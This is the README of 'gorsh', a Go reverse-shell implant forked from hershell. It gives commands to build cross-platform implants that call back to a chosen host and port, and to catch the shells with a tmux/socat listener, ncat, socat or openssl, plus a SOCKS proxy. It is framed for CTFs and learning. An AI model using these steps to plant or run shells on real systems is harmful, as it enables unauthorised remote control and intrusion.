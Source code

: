 # gorsh

[go]lang [r]everse [sh]ell

[![forthebadge](https://forthebadge.com/images/badges/fuck-it-ship-it.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/made-with-crayons.svg)](https://forthebadge.com)

![](https://i.imgur.com/x51XH6K.png)
![](https://i.imgur.com/1DhRJog.png)

Originally forked from - [sysdream/hershell](https://github.com/sysdream/hershell)

## Motivation

Learn go.  
Make a throwaway reverse shell for things like CTFs.  
Learn about host-based OPSEC considerations when writing an implant.

## Fork Changes

**Requires go1.11+**

See the [Changelog](./docs/CHANGELOG.md)

## Getting started

Check out the [official documentation](https://golang.org/doc/install) for an intro to developing
with Go and setting up your Golang environment (with the `$GOPATH` environment variable).


```bash
go get -u github.com/gobuffalo/packr/packr
go get github.com/audibleblink/gorsh/...
git clone git@github.com:audibleblink/gorsh.git
cd gorsh
```

Makefile assumes this project is being built on Linux.

Be sure to read the Makefile. It gives you a good idea of what's going on.
If enabled in `Makefile`, the `zipcat` cmdlet uses the zStandard compression library which requires
`cgo` compilation.
Leave the defaults in the Makefile unless you're familiar with cross-compilation and cgo and have
the toolchains for it, or read [here](./docs/TROUBLESHOOTING.md) if you're feeling adventurous.

### Usage

First, generate your certs and ssh keys for the reverse proxy.

```bash
$ make depends
```

If you want to use the `socks` feature, edit `configs/ssh.json`. Create a user on the SSH server
and give it a `/bin/false` shell in `/etc/passwd`

For the `make` targets, you only need the`LHOST`and`LPORT`environment variables.

Generate with:

```bash
$ make {windows,macos,linux}{32,64} LHOST=example.com LPORT=443
#or
$ make all LHOST=example.com LPOST=443
```

[Troubleshooting](./docs/TROUBLESHOOTING.md)


#### Catching the shell

This project ships with a server that catches the reverse shell and still provides shell-like
capabilities you lose with traditional reverse shells, including:

* Tab Completion
* Vi-mode readline editing
* History
* Cursor movements

Generate the server with:

```sh
make server
build/srv/gorsh-listen --help
```

The gorsh-listener is a one-to-one relationship, like a traditional shell. For multiple shell, you
need to start multiple server on different ports. 

To have the ability to receive multiple shell on the same port, there's the `make listen` target

The `make listen` target kicks off a tmux session and creates new windows with each new connection.
Feed it a port number as PORT. It does this by having `socat` act as a TLS-terminating reverse
proxy. The connections are then handed off to gorsh-listener through randomly generated Unix Domain
Sockets.

```sh
make listen PORT=8080

# once a client connects, on a different terminal type:
tmux attach -t GORSH
```

Shells can also be caught without tmux or gorsh-listen using:

* socat (not working on macos)
* ncat
* openssl server module
* metasploit multi handler (with a `python/shell_reverse_tcp_ssl` payload)

__Examples__

```bash
$ ncat --ssl --ssl-cert server.pem --ssl-key server.key -lvp 1234
$ socat stdio OPENSSL-LISTEN:443,cert=server.pem,key=server.key,verify=0
```

Once executed, you will be provided with the tool's shell.
Type `help` to show what commands are supported.

## Credits

* Initial Work - Ronan Kervella `<r.kervella -at- sysdream -dot- com>`
* Modifications - f47h3r - [@f47h3r_b0](https://twitter.com/f47h3r_b0)
* mzpqnxow for figuring out my x-compilation and dependancy problems and troubleshooting guide

